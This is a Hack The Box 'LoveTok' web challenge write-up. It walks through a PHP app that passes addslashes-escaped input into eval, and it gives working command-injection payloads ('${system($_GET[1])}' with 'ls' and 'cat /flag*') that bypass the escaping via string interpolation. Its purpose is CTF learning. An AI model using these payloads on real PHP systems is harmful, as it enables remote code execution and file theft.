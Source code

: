 ```yaml
---
ref: https://www.hackthebox.com/achievement/challenge/1780054/198
category: web
---
```


# [LoveTok](https://www.hackthebox.com/achievement/challenge/1780054/198)
One of the Challenges of HTB called "LoveTok" (Category: Web).
We were given an IP+Port to a Host and also a full "fake-deployment" of it in a zip-file.

Since this is a Web-Challenge I just assumed that a website would be running on that port, I was right:

![First looks](./imgs/page.png)

The only form of interaction we currently have is this button on the bottom, let's click it:

![After click](./imgs/format.png)

The page itself didn't change but we can see that we now have a GET-Param in the URL. After fiddelingwith it a little bit and also from the name itself I quickly figured that you can define a Date-Format String for the Output below. After some professional googlin' I also figured out that the backend is most-likely a PHP-Server given how it behaves on certain format-strings (note: this could've been figured out in 0 seconds by just simply having a look at the provided zip-file first :().

Anyhow, since this is now our only form of input it virtually screams "Please hack here" - let's have a look at the provided files:

![Provided Stuff](./imgs/zipcontents.png)

Two of the files are related to our time-formatting: `TimeController.php` and `TimeModel.php`. I have added the entierty of them below and annotated them using comments:

- `TimeController.php`
    ```php
    <?php
    class TimeController
    {
        // Gets called from the Laravel Router whenever I visit the main webpage. 
        public function index($router)
        {
            // if no format string is provided it defaults to "r", which is why we didn't see any change on the page after the button-click
            // otherwise, our input simply gets stored into this variable
            $format = isset($_GET['format']) ? $_GET['format'] : 'r';

            // the code then creates this modal, so we want to provide a format that exploits the creation of this somehow
            $time = new TimeModel($format);
            return $router->view('index', ['time' => $time->getTime()]);
        }
    }   
    ?>
    ```

- `TimeModel.php`
    ```php
    <?php
    class TimeModel
    {
        public function __construct($format)
        {
            // addslashes is a built-in php function that primitivly escapes some characters
            // this is supposed to sanatize our input
            $this->format = addslashes($format);

            // some random date generation
            [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
            $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
        }

        public function getTime()
        {
            // eval! so definetly some injection-potential here
            // as we can see the eval statement is supposed to take our inputs and store the result of the built-in date function into the $time variable, whose contents we ultimately get to see on the webpage
            eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
            return isset($time) ? $time : 'Something went terribly wrong';
        }
    }
    ?>
    ```

If we wouldn't have the `addslashes` we could very easily just inject anything by simply closing the `date`-call ourselves, appending any call we want and just commenting out the rest. But since this isn't possible (since directly providing `"` gets escaped to `\"`) we have to get a bit more creative.

Doing a quick google-search immediately provides multiple articles as to why `addslashes` does not properly sanatize input and how it can be exploited anyway! [The article I used here](https://swordandcircuitboard.com/php-addslashes-command-injection-bypass/).

To summarize: Although some characters get escaped, we can still run PHP-String interpolation and with that have access to **any variable and function that is currently in scope**. The crafts a concise command that allows us to do any command-injection that we want!

+ Add a second URL-GET-Param that contains our command-injection payload. e.g.: `http://...&1=<anything>`. Note: I thought that the article used a number as the key so that we do not have to quote it to access the value, which would've been a problem since we cannot quote anything. But we can "exploit" PHP's String-Interpolation to bypass the need of quotes (which is very cursed!)
    - ```php
      <?php
      $c = array("foo" => 3);
      var_dump($c[foo]); // does not work, as expected
      var_dump("{$c[foo]}"); // does not work, as expected
      var_dump("$c[foo]"); // WORKS, only $c[] is interpolated and the rests (anything passed inside of []) is interpreted as a string! WTF!
      ?>
      ```
+ Reference the GET-Param in the original variable (which gets passed to the `eval`-function) and wrap it in a `system`-call to run arbitrary code: `system($_GET[1])`

With that we can simply take the example from the article, although I do know from the provided files that there is a flag-file on the server which looks like `/flag*` (with some random characters at the end), so we don't even have to run `ls` to find it, but let's have a look anyway:

+ List files: `?format=${system($_GET[1])}&1=ls%20/`
    ![Flag spotted](./imgs/ls.png)
+ Read file content: `?format=${system($_GET[1])}&1=cat%20/flag*`
    ![Flag gotted](./imgs/flag.png)

And there we go!

